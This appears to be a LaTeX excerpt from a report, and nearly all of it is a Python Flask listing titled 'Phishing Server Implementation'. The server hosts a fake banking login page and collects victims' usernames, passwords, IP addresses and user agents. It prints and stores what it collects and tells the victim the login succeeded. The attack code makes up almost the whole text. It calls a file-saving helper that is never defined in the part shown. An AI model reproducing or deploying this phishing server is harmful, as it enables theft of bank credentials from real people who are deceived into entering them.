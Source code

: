 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=python, caption=Phishing Server Implementation]
from flask import Flask, render_template, request, jsonify
from flask_cors import CORS
import datetime
import json

app = Flask(__name__)
CORS(app)  # Enable cross-origin requests

captured_credentials = []

@app.route('/')
def index():
    """Serve the fake banking login page"""
    return render_template('index.html')

@app.route('/capture', methods=['POST'])
def capture_credentials():
    """Capture and log stolen credentials"""
    try:
        data = request.get_json()
        
        username = data.get('username', '')
        password = data.get('password', '')
        timestamp = data.get('timestamp', '')
        user_agent = data.get('userAgent', '')
        
        credential_entry = {
            'username': username,
            'password': password,
            'timestamp': timestamp,
            'user_agent': user_agent,
            'ip_address': request.remote_addr,
            'capture_time': datetime.datetime.now().isoformat()
        }
        
        captured_credentials.append(credential_entry)
        
        # Log credentials to console
        print("\n" + "="*60)
        print("🎯 CREDENTIALS CAPTURED! 🎯")
        print("="*60)
        print(f"Username: {username}")
        print(f"Password: {password}")
        print(f"IP Address: {request.remote_addr}")
        print(f"User Agent: {user_agent}")
        print("="*60 + "\n")
        
        # Save to file
        save_credentials_to_file(credential_entry)
        
        return jsonify({'success': True, 'message': 'Login successful'})
        
    except Exception as e:
        print(f"[-] Error capturing credentials: {e}")
        return jsonify({'success': False, 'message': 'Login failed'})

if __name__ == '__main__':
    print("[+] Phishing server starting on port 8080...")
    app.run(host='0.0.0.0', port=8080, debug=False)
\end{lstlisting}

\subsubsection{Frontend Design}
\end{document}
